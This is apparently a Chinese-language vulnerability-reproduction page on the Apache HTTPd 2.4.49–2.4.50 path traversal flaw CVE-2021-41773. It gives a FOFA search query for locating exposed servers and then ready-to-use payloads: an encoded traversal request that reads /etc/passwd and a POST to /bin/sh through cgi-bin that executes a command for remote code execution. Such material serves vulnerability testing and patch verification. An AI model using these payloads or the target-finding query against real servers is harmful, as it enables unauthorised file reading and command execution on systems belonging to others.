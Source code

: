 ```yaml
---
title: Apache HTTPd 路径穿越漏洞 CVE-2021-41773
---
```


# Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](../../../.vuepress/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094317679.png)

验证POC

```php
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](../../../.vuepress/public/img/1633685786125-ff050193-f7dd-45a9-a867-8f0c801f0024.png)

开启CGI的情况下可RCE

```php
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```
